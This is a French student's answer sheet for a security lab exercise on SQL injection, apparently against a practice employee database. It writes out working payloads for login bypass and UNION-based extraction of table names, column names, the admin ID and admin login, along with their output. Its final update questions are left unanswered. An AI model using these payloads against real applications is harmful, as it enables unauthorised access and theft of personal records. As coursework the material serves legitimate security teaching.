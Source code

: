 `Editor: Yuxin SHI 18/03/2018`
`[TD3 exercices1]`
# Sécurité des systèmes d’information

1. Réaliser une injection sql qui permet de s’authentifier en tant que Boby. Pour
cette question nous supposons que disposez de l’ID de Boby qui est 20000.
```sql
20000';#
```
2. Réaliser une injection sql qui permet de s’authentifier sans connaitre aucun ID.
Quelle est l’employé affecté par cette attaque ?
```sql
'OR (1 = 1); #
```
3. Répéter l’attaque précédente pour obtenir des information sur chaque employé.
```sql
/* index 12 to 20 line*/
UNION SELECT NULL, NULL, NULL LIMIT 12,20
OU
'OR (1 = 1) LIMIT 12, 20; #
```
4. Pour cette question, on souhaite se connecter en tant d’administrateur sans connaitre son ID. On sait uniquement que "Admin" est le nom utilisé par l’administrateur.
L’approche de la question précédente peut être fastidieuse si le nombre d’employé
est élevé. Pour cette question on pourra procéder comme suit :
(a) Faire une injection SQL permettant de récupérer le nom de la table.

```sql
# Reference:
SELECT table_name FROM information_schema.tables WHERE table_schema = database();
# 使用以下语句语句得到所有的数据库名'
'AND (1=2) UNION (SELECT 1, 2, 3, 4, 5, 6, 7, 8, table_name, 9, 10 FROM information_schema.tables WHERE table_schema = database()) ORDER BY 11 LIMIT 1,2;#
/*Effect where limit 1,2 choose second line of table:
Employee ID	3
Salary	4
Birth	5
SSN	6
NickName	9
Email	secret
Address	8
Phone Number	7*/
```
(b) Faire une injection SQL permettant de récupérer le nom des différentes colonnes
de la table.
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'credential' and table_schema= database();
+-------------+
| column_name |
+-------------+
| ID          |
| Name        |
| EID         |
| Salary      |
| birth       |
| SSN         |
| PhoneNumber |
| Address     |
| Email       |
| NickName    |
| Password    |
+-------------+
'
'AND (1=2) UNION (SELECT 1, 2, 3, 4, 5, 6, 7, 8, group_concat(column_name), 9, 10 FROM information_schema.columns WHERE table_schema = database() AND table_name = 'credential') ORDER BY 11;#
/* EFFECTS:
Employee ID	3
Salary	4
Birth	5
SSN	6
NickName	9
Email	ID,Name,EID,Salary,birth,SSN,PhoneNumber,Address,Email,NickName,Password
Address	8
Phone Number	7 */
```
(c) Faire une injection SQL permettant de récupérer l’ID de l’administrateur.
```sql
'
'AND(1=2) UNION (SELECT 1, 2, 3, 4, 5, 6, 7, 8, EID, 9, 10 FROM credential WHERE
Name = 'Admin'); #
/*
Employee ID	3
Salary	4
Birth	5
SSN	6
NickName	9
Email	99999
Address	8
Phone Number	7
*/'
```
(d) Faire une injection SQL permettant de se connecter en tant qu’administrateur.
```sql
'
'AND (1=2) UNION (SELECT * FROM credential WHERE EID = 99999);#
99999';#
```
5. En vous inspirant de la question précédente, obtenez une information contenue
dans une autre table de la base. Quelle bonne pratique aurait pu limiter l’impacte
de votre attaque ?
> Ajouter une contrainte sur la page loggin, par exemple, il n'y a que les chifferes sont acceptes.

## Injection SQL (update)
1. Réaliser une injection sql qui permet à Ryan de modifier son salaire. Pour cette
on connait l’ID de Ryan (30000) ainsi que son mot de passe (seedryan).

```sql

```
2. Réaliser une injection sql qui permet à Alice de modifier de numéro de téléphone
de Ryan.
3. Est-ce que Alice peut modifier le mot de passe de Ryan ?
